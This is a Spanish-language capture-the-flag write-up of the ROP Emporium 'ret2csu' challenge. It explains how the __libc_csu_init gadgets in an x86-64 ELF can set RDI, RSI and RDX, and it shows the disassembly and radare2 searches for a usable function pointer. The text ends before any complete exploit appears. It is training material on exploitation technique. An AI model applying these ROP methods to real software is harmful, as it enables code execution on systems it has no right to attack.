 # ret2csu

> Learn a ROP technique that lets you populate useful calling convention registers like rdi, rsi and rdx even in an environment where gadgets are sparse.
---

### Analizar el binario

En la descripción del reto se dice que hay que llamar a "ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)". El problema: no hay un gadget que permita escribir en RDX (3er argumento) aparentemente. La solución: ret2csu.

ret2csu es una técnica presentada en Black Hat Asia 2018, la técnica se describe en el siguiente [paper](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf). Básicamente consiste en saltar a una función que contienen todos los ELF modernos, la parte que nos interesa de esta función es la siguiente:

```
   0x0000000000400670 <+64>:    mov    rdx,r15
   0x0000000000400673 <+67>:    mov    rsi,r14
   0x0000000000400676 <+70>:    mov    edi,r13d
   0x0000000000400679 <+73>:    call   QWORD PTR [r12+rbx*8]
   0x000000000040067d <+77>:    add    rbx,0x1
   0x0000000000400681 <+81>:    cmp    rbp,rbx
   0x0000000000400684 <+84>:    jne    0x400680 <__libc_csu_init+64>
   0x0000000000400686 <+86>:    add    rsp,0x8
   0x000000000040068a <+90>:    pop    rbx
   0x000000000040068b <+91>:    pop    rbp
   0x000000000040068c <+92>:    pop    r12
   0x000000000040068e <+94>:    pop    r13
   0x0000000000400690 <+96>:    pop    r14
   0x0000000000400692 <+98>:    pop    r15
   0x0000000000400694 <+100>:    ret    
```

La única complicación es la instrucción "call   QWORD PTR [r12+rbx\*8]" que debe llamar a una función direccionada de forma indirecta, vamos que r12+rbx\*8 debe ser una dirección de memoria cullo contenido apunte a una función y que esta función no modifique RDX claro.

Para solucionar este problema se suele establecer RBX=0 y R12 apuntando a una dirección de la sección Dynamic del binario que no modifique nuestro registro, al no encontrar ninguna función con estas características, sigo la técnica descrita en este [blog](https://blog.r0kithax.com/ctf/infosec/2020/10/20/rop-emporium-ret2csu-x64.html) para encontrar una función adecuada.

"El comando radare2 a continuación usa una búsqueda de expresiones regulares para buscar el siguiente valor en el ELF con secuencias de bytes que comienzan con dos bytes cualesquiera seguidos de \x00\x40. Buscamos ese prefijo de byte porque la mayoría de las direcciones ejecutables que representan instrucciones de máquina válidas están ubicadas en pequeños índices de 0x00400000. Esto requerirá un poco de prueba y error, así que asegúrese de examinar cómo son los ROP gadgets cada vez que busque una nueva dirección."

```
[0x00400640]> s/e /..\x40\x00/i
Invalid argument
Searching 8 bytes in [0x601038-0x601040]
hits: 0
Searching 8 bytes in [0x600df0-0x601038]
0x00600df0 hit4_0 .\u0000\u0006@\u0000\u0000\u0000\u0000\u0000@.``

[0x00600df0]> x/xg
0x00600df0  0x0000000000400600

[0x00600df0]> pd 3 @0x0000000000400600
            ;-- frame_dummy:
┌ 7: entry.init0 ();
│ bp: 0 (vars 0, args 0)
```
